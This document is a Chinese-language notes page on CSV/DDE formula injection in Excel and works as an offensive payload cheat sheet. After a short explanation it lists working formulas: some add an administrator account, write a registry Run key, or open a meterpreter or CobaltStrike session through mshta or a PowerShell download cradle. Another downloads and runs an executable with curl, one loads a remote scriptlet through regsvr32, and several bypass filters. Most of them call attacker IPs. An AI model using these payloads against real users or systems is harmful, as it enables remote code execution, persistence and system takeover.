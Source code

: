 # CSV

> [office-exploits/injections at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/injections)
>
> [CSV注入详解 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12272?time__1311=mqmhD5YIoXqBqDudxUOxAEtKUq0INx&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-0)

---

## CSV简介

CSV(Comma-Separated Values) 是一种用来存储数据的纯文本格式文件。

CSV文件由任意数目的记录组成，记录间以指定符号(最常见的是逗号,也有用分号,制表符,`|`,空格等分隔的)分隔

例如:

![image-20240710094603740](http://cdn.ayusummer233.top/DailyNotes/202407100946680.png)

---

## CSV注入原理

CSV 注入是一种将包含恶意命令的excel公式插入到可以导出csv或xls等格式的文本中，当在excel中打开csv文件时，文件会转换为excel格式并提供excel公式的执行功能，会造成命令执行问题。

Excel 有一个特性：单元格中的第一个字符是 `+、-、@、=` 这样的符号时，他会以一个表达式的形式被处理

![image-20240710094847973](http://cdn.ayusummer233.top/DailyNotes/202407100948082.png)

不过除了公式之外, `=` 也可以用于执行代码, 这需要涉及到一个概念: [DDE](../DDE/index.md)

动态数据交换（DDE），是Windows下进程间通信协议，支持Microsoft Excel，LibreOffice和Apache OpenOffice。

Excel、Word、RTF、Outlook都可以使用这种机制，根据外部应用的处理结果来更新内容。因此，如果我们制作包含DDE公式的CSV文件，那么在打开该文件时，Excel就会尝试执行外部应用。

---

由于涉及到调用外部应用,加载外部数据, 对于新版本 Office 而言需要在 `文件-选项-信任中心-信任中心设置-外部内容-动态数据交换的安全设置` 中启用 `动态数据交换服务器查找` 和 `动态数据交换服务器启动`

![image-20240710110237136](http://cdn.ayusummer233.top/DailyNotes/202407101102187.png)

---

## 弹计算器

例如

```
=1+cmd|'/C calc'!A0
```

![image-20240710101319768](http://cdn.ayusummer233.top/DailyNotes/202407101014821.png)

![image-20240710101407766](http://cdn.ayusummer233.top/DailyNotes/202407101014623.png)

---

## OS命令执行

可以利用上述方式执行系统命令, 例如

- 打开任意应用程序

  例如打开浏览器访问指定站点

  ```
  =1+cmd|'/C "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" http://100.1.1.131:8090/a'!A0
  ```

- 反弹Shell

- 添加用户

  ```
  =cmd|'/C net user test 123456 /add'!A0+<br>=cmd|'/C net user test 123456 /add && net localgroup administrators test /add'!A0
  ```

- 修改注册表

  ```
  =cmd|'/C reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v calc /t REG_SZ /d c:\windows\system32\calc.exe /f'!A0
  ```

---

## cmd+mshta+msf 反弹Shell

> TODO

`msf`:

```bash
msfconsole
use exploit/windows/misc/hta_server
# 设置srvhost和srvport绑定一个web服务让目标访问
msf exploit(windows/misc/hta_server) > set srvhost 100.1.1.131
# 使用的攻击载荷
set payload windows/x64/meterpreter/reverse_tcp  
#默认是x86的,选择x64
set target 1
# 绑定攻击机IP
set lhost 100.1.1.131
# 启动脚本
run
```

新建csv, 插入如下命令并保存文件

```
=1+cmd|'/C mshta http://100.1.1.102:8080/3Mw1oRtpuxJp.hta'!A0
```

用 Excel 重新打开该 CSV即可上线 msf

---

## PowerShell 上线 CobaltStrike

```
=1+cmd|'/C "powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(\"http://100.1.1.131:8051/b\"))"'!A0
```

---

## CMD + Curl 下载与执行可执行文件

```
=cmd|'/C "curl http://100.1.1.131:8888/artifact_x64.exe --output shell.exe && .\shell.exe"'!A0
```

---

## 超链接钓鱼链接

```
=HYPERLINK("http://10.182.234.102:8090/a","点我百度”")
```

---

## 注册加载远程sct

> [office-exploits/injections at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/injections)

```csv
fillerText1,fillerText2,fillerText3,=MSEXCEL|'\..\..\..\Windows\System32\regsvr32 /s /n /u /i:http://192.168.154.200/cmd.sct scrobj.dll'!''
```

---

## 加载 scriptlet

> [office-exploits/injections at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/injections)

```
=Package|'scRiPt:http://XXXX/XXXX.xml'!""
```

---

## 绕过技巧

> [CSV注入详解 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12272?time__1311=mqmhD5YIoXqBqDudxUOxAEtKUq0INx&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-0)

---

### 静态

可以通过运算符`+-`的方式绕过对于 `=` 的检测

```
-1+1+cmd |’ /C calc’ !A0
```

参数处输入以下 Payload，`%0A`被解析，从而后面的数据跳转到下一行：

```
%0A-1+1+cmd|' /C calc'!A0
```

导出文件为 csv 时，若系统在等号`=`前加了引号`’`过滤，则可以使用分号绕过，分号`；`可分离前后两部分内容使其分别执行：

```
;-3+3+cmd|' /C calc'!D2
```

其他常用 Payload：

```
@SUM(cmd|'/c calc'!A0)
=HYPERLINK("https://attact.com")
```

---



































